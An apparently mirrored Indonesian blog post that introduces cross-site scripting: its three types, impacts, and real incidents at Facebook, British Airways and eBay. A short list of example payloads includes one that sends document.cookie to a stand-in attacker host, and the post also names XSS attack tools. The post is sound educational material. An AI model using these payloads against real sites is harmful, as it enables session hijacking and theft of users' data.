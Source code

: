```yaml
---
title: "Mengenal Serangan Cross-Site-Scripting (XSS) pada Website"
pubDate: 2022-07-05T08:36:28.798+0700
updatedDate: 2022-07-05T08:36:28.798+0700
categories: [""]
tags: ["xss-attack", "cross-site-scripting"]
description: "Cross-Site-Scripting atau yang disingkat XSS adalah serangan berupa code injection yang menanamkan kode/skrip berbahaya di website yang…"
heroImage:
    image: ../../assets/d23309750e10/06QYOVknjvvwFBtZd.png
externalPost: https://tridims.medium.com/mengenal-serangan-cross-site-scripting-xss-pada-website-d23309750e10
---
```


Cross\-Site\-Scripting atau yang disingkat XSS adalah serangan berupa code injection yang menanamkan kode/skrip berbahaya di website yang terpercaya\. Serangan ini mengeksploitasi kerentanan XSS untuk mencuri data, mengendalikan sesi pengguna, menjalankan kode jahat, atau digunakan sebagai bagian dari serangan phishing\.

![](../../assets/d23309750e10/06QYOVknjvvwFBtZd.png)

Cross site scripting melakukan serangan injeksi kode pada sisi klien dengan menggunakan sarana halaman website atau web aplikasi\. Peretas akan mengeksekusi skrip berbahaya di browser korban dengan cara memasukkan kode berbahaya ke halaman web atau web aplikasi yang sah\. Serangan ini dapat dilakukan menggunakan JavaScript, VBScript, ActiveX, Flash, dan bahasa sisi klien lainnya\.

Cross site scripting menggunakan aplikasi web untuk menjalankan script berbahaya di dalam browser korban\. Korban secara tidak sadar dapat mendownload dan menjalankan script berbahaya\. Script berbahaya tersebut bisa terdownload karena aplikasi web menampilkan user input tanpa di validasi terlebih dahulu\. Penyerang dapat memasukkan string berupa kode kedalam input web app seperti search, form, dsb\.

## **Jenis\-Jenis Serangan XSS**

### **Reflected XSS \(Non\-Persistent\)**

![](../../assets/d23309750e10/0gUkkfV45hnLz1pwk.png)

Reflected XSS terjadi ketika skrip berbahaya dipantulkan dari web aplikasi ke browser korban\. Dapat terjadi ketika input pengguna yang tidak divalidasi dan tidak tersaring lolos sebagai bagian dari output HTML\. Serangan yang berhasil dapat memungkinkan penyerang untuk mengeksekusi HTML dan JavaScript di browser korban\.

### Stored XSS \(Persistent\)

![](../../assets/d23309750e10/0KzrA1xdgIOheKLCM.png)

Stored XSS merupakan jenis XSS yang paling merusak\. Dalam stored XSS, skrip yang disuntikkan akan disimpan secara permanen di server target, seperti database, forum pesan, visitor log, dan lain\-lain\.

### DOM\-based XSS

![](../../assets/d23309750e10/0nNN6uGtGenAX9dp.png)

Meruparkan jenis XSS dimana script berbahaya dirender secara dinamis ke dalam DOM \(Document Object Model\) \. Dapat dilakukan dengan menuliskan script atau argumen ke dalam url sebuah website\. Contohnya yaitu `http://www\.example\.com/test\.html\#\<script\>alert\(1\)\</script\>\`.

**Contoh XSS Script**

-   `<script>…</script>`
-   `\<body onload=alert\(‘test1’\)\>`
-   `\<b onmouseover=alert\(‘Wufff\!’\)\>click me\!\</b\>`
-   `\<img src=”http://url\.to\.file\.which/not\.exist" onerror=alert\(document\.cookie\);\>`
-   `\<script\>document\.location=’ [http://www\.attacker\.com/cgi\-bin/cookie\.cgi](http://www.attacker.com/cgi-bin/cookie.cgi) ? foo=’\+document\.cookie\</script\>`

**Tools yang dapat digunakan untuk melakukan XSS**

-   Framework XSS Scanner, ada beberapa contoh aplikasi
-   XSSer
-   XSStrike
-   Shuriken
-   Xsscrapy
-   KNOXSS
-   Beef (Browser Exploitation Framework Project, dapat menyediakan script dan server yang dapat digunakan untuk serangan XSS)

## **Dampak Serangan XSS**

Dampak dari serangan XSS dikatakan sesuai dengan jenis serangannya, untuk XSS jenis reflected dan DOM memiliki dampak kerusakan sedang, dan dapat berdampak parah pada jenis serangan stored XSS\. Dengan menggunakan remote code execution pada browser korban, penyerang dapat melakukan berbagai hal mulai dari pencurian data dan kredensial hingga mengirim malware ke korban\.

### **Contoh kasus serangan XSS**

#### 1. **Facebook**

Pada tahun 2011, terdapat tiga buah celah keamanan berbeda yang ditemukan dalam rentah waktu 10 hari\. Isu XSS kedua merupakan yang terburuk menurut saya karena digunakan untuk mendistribusikan serangan phising dan malware\.

#### 2. **British Airways**

Perusahaan penerbangan mengalami security breach pada tahun 2018 yang mempengaruhi 380\.000 transaksi penerbangan\. Penyerang menggunakan script javascript dan XSS attack untuk melacak data consumer\.

#### 3. **eBay**

Ebay pernah menghadapi banyak serangan XSS, dari December 2015 hingga Januari 2016\. Dengan serangan tersebut penyerang dapat mengakses produk pengguna, mencuri detail pembayaran mereka, menjual produk pengguna dengan harga murah, dll\.

## **Daftar Pustaka**

5 Real\-World Cross Site Scripting Examples\. \(2021\) \. Retrieved 28 February 2022, from [https://websitesecuritystore\.com/blog/real\-world\-cross\-site\-scripting\-examples/](https://websitesecuritystore.com/blog/real-world-cross-site-scripting-examples/#:~:text=As%20the%20name%20implies%2C%20stealing,transactions%2C%20personal%20data%2C%20etc)

[https://www\.softwaretestinghelp\.com/cross\-site\-scripting\-xss\-attack\-test/](https://www.softwaretestinghelp.com/cross-site-scripting-xss-attack-test/)

XSS Tutorial\. \(2022\) \. Retrieved 28 February 2022, from [https://hackertarget\.com/xss\-tutorial/](https://hackertarget.com/xss-tutorial/)

Cross Site Scripting \(XSS\) Software Attack \| OWASP Foundation\. \(2022\) \. Retrieved 28 February 2022, from [https://owasp\.org/www\-community/attacks/xss/](https://owasp.org/www-community/attacks/xss/)

DOM\-Based Cross Site Scripting \(DOM\-XSS\) \. \(2018\) \. Retrieved 28 February 2022, from [https://medium\.com/iocscan/dom\-based\-cross\-site\-scripting\-dom\-xss\-3396453364fd](https://medium.com/iocscan/dom-based-cross-site-scripting-dom-xss-3396453364fd)
